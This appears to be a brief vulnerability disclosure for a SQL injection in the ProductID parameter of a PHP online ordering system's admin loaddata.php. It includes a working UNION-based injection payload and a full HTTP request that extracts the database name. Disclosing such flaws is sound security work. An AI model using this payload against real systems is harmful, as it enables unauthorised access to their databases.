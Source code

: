 # Online Ordering System By janobe has SQL injection vulnerability

Author： k0xx

vendor: https://www.sourcecodester.com/php/12978/online-ordering-system-phpmysqli.html

Vulnerability file: /ordering/admin/orders/loaddata.php

Vulnerability location: /ordering/admin/orders/loaddata.php&ProductID //ProductID is Injection point

[+]Payload: ProductID=-2' union select 1,2,3,4,5,6,database(),8,9,10,11,12,13,14,15,16,17,18--+ //ProductID is Injection point

Current database name: multistoredb

```sql
POST /ordering/admin/orders/loaddata.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 68

ProductID=-2' union select 1,2,3,4,5,6,database(),8,9,10,11,12,13,14,15,16,17,18--+
```

![image](https://user-images.githubusercontent.com/54017627/168951027-0398e6e6-9ab4-4238-a7cf-1eac9caf8b32.png)

![image](https://user-images.githubusercontent.com/54017627/168951106-9ff9c493-0a91-41f6-a34b-ee44160819b0.png)
